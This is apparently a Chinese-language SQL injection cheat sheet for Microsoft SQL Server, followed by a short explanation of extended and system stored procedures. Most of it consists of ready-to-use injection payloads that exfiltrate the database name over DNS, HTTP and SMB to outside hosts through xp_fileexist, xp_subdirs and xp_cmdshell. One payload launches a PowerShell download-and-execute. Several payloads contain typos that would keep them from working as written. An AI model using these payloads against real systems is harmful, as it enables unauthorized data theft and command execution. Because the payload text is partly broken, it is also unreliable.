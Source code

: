     - ```sql
      #xp_fileexist判断路径是否存在
      ?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_fileexist "//''%2b@a%2b''.Laffrex.exys.sh\\a"') --+
      ```

- `HTTP数据外带`

```sql
#存在堆叠注入的数据外带
?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(newobject net.webclient).downloading(''http://192.168.1.1:9000?data='%2b@a%2b''')"') --+
```

- `SMB数据外带`

```sql
#存在堆叠注入的数据外带
?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs"//''%2b''192.168.1.1\\''%2b@a%2b''.txt"'')--+

#执行命令查看
tail -f /var/log/samba/log.smbd | grep "failed"
```

```sql
#不存在堆叠注入的数据外带
?id=1'and exits(select*from fn_xe_file_target_read_file('C:*.xls','\\'+(select user)+'Laffrex.eyes.sh\1.txt',null,null)) --+
```

****

#### MSSql扩展存储过程

- 存储过程是为了完成特定功能的`sql语句`集合,经编译后存储于数据库中,用户通过指定存储过程的名称并给出参数来执行.存储过程中可以包含逻辑控制语句和数据操纵语句,它可以接受参数,输出参数,返回单个或多个结果集以及返回值
- 由于存储过程在创建时即在数据库服务器上进行了编译并存储在数据库中,所以存储过程运行要比单个sql语句块要快,同时由于在调用时只需用提供存储过程名和必要的参数信息,所以在一定程度上也可以减少网络流量,减轻网络负担
- 存储过程分为:`系统存储`,`本地存储`,`扩展存储`,`远程存储`,`临时存储`过程

------

#### 系统存储过程

- 以`sp_`开头,进行系统的设定,如:`sp_oacreate`,`sp_oamethod`

- 利用`条件`

  - 1.已获得`sqlserver sysadmin权限`的用户,且账号与密码未降权

  - 2.sqlserver允许`远程连接`

  - `OLE Automation Procedures`选项开启

    `sp_oacreate`是创建OLE对象的实例

    `sp_oamethod`是调用一个OLE对象的方法
